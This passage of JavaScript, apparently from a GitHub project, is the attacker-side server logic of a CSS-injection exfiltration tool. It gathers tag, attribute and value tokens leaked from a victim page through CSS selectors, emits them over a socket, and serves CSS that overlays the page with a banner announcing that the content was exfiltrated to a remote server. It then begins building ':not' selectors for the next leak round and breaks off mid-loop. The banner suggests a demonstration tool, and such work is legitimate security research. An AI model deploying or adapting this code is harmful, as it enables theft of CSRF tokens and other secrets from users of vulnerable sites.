 ```js
function completed(request, response) {
    const ip = getIP(request);
    const tokens = session.get(ip).get('tokens', true);

    for (let tokenObject of tokens) {
        let { tag, attribute, value } = tokenObject;
        io.emit('token', { token: escapeCSS(value)}); 
        
    }
    if (SHOW_RESULTS_IN_CONSOLE) {
        console.log("Completed.", tokens);
    }
    if (!SHOW_RESULTS_IN_BROWSER) {
        response.end();
        destroySession(request);
        return;
    }
    let extractedValues = '';
    for (let tokenObject of tokens) {
        let { tag, attribute, value } = tokenObject;
        extractedValues += `\\0aTag:\\09\\09\\09\\09 ${escapeCSS(tag)}\\0a Attribute:\\09\\09\\09 ${escapeCSS(attribute)}\\0a Value:\\09\\09\\09 ${escapeCSS(value)}\\0a`;
        io.emit('token', { token: escapeCSS(value)}); 
        
    }

    response.writeHead(200, { 'Content-Type': 'text/css' });
    response.write(`
        ${htmlBeforeCSS("CSS exfiltration complete", true)}
        html:after{
            color: #155724;
                background-color: #d4edda;
                border-color: #c3e6cb;
                padding: 0.75rem 1.25rem;
                border: 1px solid transparent;
            content: "The content on the webpage has been successfully exfiltrated and sent to a remote server. \\0a This is what has been extracted:\\0a ${extractedValues}";
            position:fixed;
            left:0;
            top:100px;
            padding:5px;
            width: 100%;
            height: calc(100% - 100px);
            overflow: auto;
            white-space: pre;
            font-family:Arial;
            box-sizing: border-box;
            z-index: 2147483647;
        }
    `);

    response.end();
    destroySession(request);

    // ----------------------------------------------${escapeCSS(value)}-------------
}

function generateNotSelectors(tokens, elementName, attributeName) {
    let selectors = "";
    if (!tokens.length) {
        return '';
    }
    for (const tokenObject of tokens) {
```